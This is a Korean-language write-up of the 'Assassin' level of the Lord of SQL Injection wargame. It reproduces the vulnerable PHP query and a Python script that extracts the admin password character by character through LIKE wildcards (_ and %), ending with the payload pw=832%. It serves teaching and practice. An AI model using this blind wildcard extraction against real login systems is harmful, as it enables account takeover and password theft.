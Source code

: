 # Lord of SQL Injection No.15 Assassin

Assassin 문제는 와일드카드(`_`, `%`)를 사용하여 원하는 `id`의 `pw`값을 뽑아낼 수 있는 지 확인하는 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?
```

```php
if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");
```

`preg_match`에서 `'`를 필터링하면 `No Hack ~_~`을 출력한 후 문제 풀이에 실패하게 된다.

```php
$query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
```

`$_GET` 방식으로 `pw`만 입력받아 query에 직접 넣는다.

#### 문제 풀이 조건

```php
if($result['id'] == 'admin') solve("assassin");
```

`id`값이 `admin`이 되면 문제 풀이에 성공하게 된다.

## Solution

```python
import urllib.request
import string
from urllib.parse import quote

url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
result = ""
guest_result=""
guest_pwlen = 0
admin_pwlen = 0
tmp = ""
find = False
random = string.digits + string.ascii_letters

for i in range(1,20):
    length_chk=('_' * i)
    length_chk=quote(length_chk)
    re = urllib.request.Request(url + length_chk)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    res = urllib.request.urlopen(re)
    find_length = res.readline()
    print(find_length)

    if str(find_length).find("Hello guest") != -1:
        guest_pwlen = i
        print("Guest Password length = {}".format(guest_pwlen))
    if str(find_length).find("Hello admin") != -1:
        admin_pwlen = i
        print("Admin Password length = {}".format(admin_pwlen))
        find = True
        break
if find != True:
    admin_pwlen = guest_pwlen
    print("Admin Password length = {} // admin_pwlen = guest_pwlen".format(admin_pwlen))
    find = False

for i in range(1,admin_pwlen+1):
    for j in random:
        find = False
        add_url = result + "{}".format(j) + '%'
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
        res = urllib.request.urlopen(re)
        find_pw = res.readline()

        if str(find_pw).find("Hello admin") != -1:
            result += j
            print("Admin Password => {}".format(result))
            find = True
        if str(find_pw).find("Hello guest") != -1:
            guest_result += j
            tmp = j
            print("Guest Password => {}".format(guest_result))
            break
        if find != True:
            result = guest_result

print("Finished Searching.")
print("Password : {}%".format(result))
```

python 코드를 짰는데 오류가 자잘하다.

첫번째 `for`문에서 `_`를 사용하여 `pwlen`을 알아내는데,
`preg_match`에서 항상 필터링 되던 `_`를 사용한 것을 볼 수 있을 것이다.

`_`는 와일드 카드라고 불리는 녀석인데. 와일드 카드의 종류에는 대표적으로 `_`와 `%`가 있다.

`_`는 어떤 값이든 대체할 수 있는 미지수라고 보면 된다.
예를 들어, `apple`이라는 문자열이 있다면, 문자열의 길이만큼 `_` 를 5개 사용하여 `_____`를 대체하면 `length` 함수를 사용할 때 같은 문자열로 인식할 수 있다.

그리고 `%`는 예를 들어, `a%` 와 같이 사용하게 되면
"a로 시작하는 모든 문자열", `%p%`와 같이 사용하면 "문자열 중간에 p가 들어가는 모든 문자열", `%e`와 같이 사용하게 되면 "e로 끝나는 모든 문자열" 을 의미하게 된다.

주의할 점으로는 와일드 카드는 `like` 함수가 앞에 사용되었을 때만 사용이 가능하다는 것이다.

`for`문을 반복하면서 `guest`와 `admin`을 비교하면서 원하는 값을 찾은 이유는 `admin`의 `pw`값을 찾기 전에 원치 않게 `guest`의 `pw`값을 찾게 되면 `admin`의 `pw`값을 찾기도 전에 `for`문이 넘어가기 때문에 정상적으로 `admin`의 `pw` 값을 찾지 못하게 되어 이를 방지하기 위해 `guest`의 `pw`값을 찾더라도 `for`문이 넘어가지 않도록 만든 것이다.

`for`문이 수행되면 `admin`의 `pw`값은 `832%`가 나오게 된다.

(`guest`의 `pw`값은 `83d....` 와 같은 형식으로 진행되기 때문에 3번째 문자부터 `admin`의 `pw`값과 차이가 나게 된다.)

원래 소스 코드를 `admin`의 `pw`값과 `guest`의 `pw`값이 달라지는 시점에서 바로 반복문 실행을 중지하고 결과를 출력하는 형식으로 짜보려 했으나 그 시점에서 `admin`의 `pw`값을 출력한 후 `guest`의 `pw`값이 모두 찾아질 때까지 `for`문을 반복하는 형식이 되어버렸다. 이는 추후에 수정하여 writeup을 다시 올릴 예정이다.

```
http://los.eagle-jump.org/assassin_***.php?pw=832%
```

`pw=832%`를 URL에 삽입하여 전달하면 문제 풀이에 성공하게 된다.